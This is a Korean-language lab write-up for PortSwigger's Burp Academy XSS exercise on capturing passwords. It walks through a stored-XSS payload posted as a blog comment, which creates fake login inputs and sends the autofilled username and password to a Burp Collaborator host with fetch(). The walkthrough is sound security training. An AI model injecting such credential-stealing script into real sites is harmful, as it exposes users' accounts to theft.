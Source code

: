 ```yaml
---
layout: post
title: "Burp Academy-XSS 취약점: Exploiting cross-site scripting to capture passwords"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, XSS취약점]
toc: true
last_modified_at: 2024-08-26 21:55:00 +0900
---
```


# 개요
- Reflected 타입의 XSS 취약점 문제이다.
- 취약점 설명 주소: https://portswigger.net/web-security/cross-site-scripting/exploiting
- 문제 주소: https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords
- 난이도: PRACTITIONER (보통)

# 취약점 설명
요즘 많은 사용자가 비밀번호를 자동으로 채워주는 비밀번호 관리자를 사용한다. 비밀번호 입력을 만들고, 자동으로 채워진 비밀번호를 읽어서 자신의 도메인으로 보내면 이를 활용할 수 있다. 이 기술은 쿠키를 훔치는 것과 관련된 대부분의 문제를 피할 수 있으며, 피해자가 동일한 비밀번호를 재사용한 다른 모든 계정에 액세스할 수도 있다.

이 기술의 가장 큰 단점은 비밀번호 자동 채우기를 수행하는 비밀번호 관리자가 있는 사용자에게만 작동한다는 것이다. (물론 사용자가 비밀번호를 저장하지 않은 경우에도 온사이트 피싱 공격을 통해 비밀번호를 얻으려고 시도할 수 있지만, 완전히 똑같지는 않다.)

# 문제
- 이 사이트의 블로그의 댓글 기능에 Stored타입의 XSS취약점이 존재한다. 
- victim은 모든 댓글을 확인한다. 
- 랩을 풀려면 victim의 유저명과 패스워드를 알아내서 victim으로 로그인하면 된다. 
- Note:  Burp Collaborator 의 공식 서버를 사용해야 한다. 

```
This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

Note
To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

Some users will notice that there is an alternative solution to this lab that does not require Burp Collaborator. However, it is far less subtle than exfiltrating the credentials.
```

# 풀이 
1. Burp Professional에서 Collaborator 탭 Copy to clipboard를 클릭해 Burp Collaborator URL을 획득해둔다. 

`qnhv0ture1efjpdh2az4qqpn3e95xvlk.oastify.com`

2. 댓글 저장시에 다음 페이로드가 저장되도록 한다. 

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://qnhv0ture1efjpdh2az4qqpn3e95xvlk.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

다음과 같이 댓글에 페이로드를 붙여넣기 해서 저장한다. 

![](/images/burp-academy-xss-15-2.png)


3. Collaborator 를 확인한다. HTTP 통신 내용이 보인다. 관리자의 계정과 패스워드가 보인다! 이는 victim유저가 이 댓글을 확인할 때 패스워드 매니저에 의해 이 사이트의 username과 password가 자동으로 입력되기 때문이다. **유저명과 패스워드 자동입력은 편리한 기능이지만 XSS가 있는 사이트와 결합되면 아주 위험해진다**는 것을 알 수 있었다. 

![](/images/burp-academy-xss-15-3.png)

4. 이 계정과 패스워드를 사용해서 로그인하면 랩이 풀린다. 

![](/images/burp-academy-xss-15-success.png)
